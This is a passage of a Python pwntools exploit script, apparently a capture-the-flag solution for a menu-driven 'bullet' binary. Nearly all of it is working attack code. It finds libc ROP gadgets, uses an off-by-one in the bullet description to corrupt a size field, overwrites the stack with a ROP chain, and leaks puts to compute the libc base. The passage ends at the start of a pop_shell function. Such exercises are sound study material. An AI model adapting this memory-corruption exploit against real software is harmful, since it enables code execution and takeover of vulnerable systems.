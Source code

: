 ```python
log.info(f'system_libc: {hex(system_libc)}')
log.info(f'puts_libc: {hex(puts_libc)}')


libc_rop = ROP(LIBC)
pop_eax_ret = libc_rop.eax.address
pop_ebx_ret = libc_rop.ebx.address
pop_ecx_ret = libc_rop.ecx.address
pop_edx_ret = libc_rop.edx.address
leave_ret = libc_rop.find_gadget(['leave']).address
int_80 = libc_rop.find_gadget(['int 0x80']).address
log.info(f'pop_eax_ret: {hex(pop_eax_ret)}')
log.info(f'pop_ebx_ret: {hex(pop_ebx_ret)}')
log.info(f'pop_ecx_ret: {hex(pop_ecx_ret)}')
log.info(f'pop_edx_ret: {hex(pop_edx_ret)}')
log.info(f'leave_ret: {hex(leave_ret)}')
log.info(f'int_80: {hex(int_80)}')


def create_bullet(p, buf):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Give me your description of bullet :')
    p.sendline(buf)
    p.recvuntil(b'Good luck !!')

def power_up(p, buf):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Give me your another description of bullet :')
    p.sendline(buf)
    p.recvuntil(b'Enjoy it !')   

def beat(p):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Oh ! You win !!\n')

def trigger_rop(p, rop_bytes):
    buf_1 = b'A' * (BULLET_SIZE - 1)
    create_bullet(p, buf_1)
    # Corrupt power to \x01 (while the real size is 0x30)
    buf_2 = b'B'
    power_up(p, buf_2)
    # Ovewrite stack
    buf_3 = b'\xff' * 3  # Set power to 0xffffff01
    buf_3 += b'C' * 4  # pad
    buf_3 += rop_bytes 
    power_up(p, buf_3)
    # Terminate loop - run the above small ROP chain (leaks + jumps back to main)
    beat(p)

def leak_libc(p):
    rop_bytes = p32(puts_plt)
    rop_bytes += p32(main_binary)
    rop_bytes += p32(puts_got)
    trigger_rop(p, rop_bytes)
    libc_leak = recvPointer(p) 
    libc_base = libc_leak - puts_libc
    assert((libc_base & 0xfff) == 0)
    return libc_base

def pop_shell(p, libc_base):
```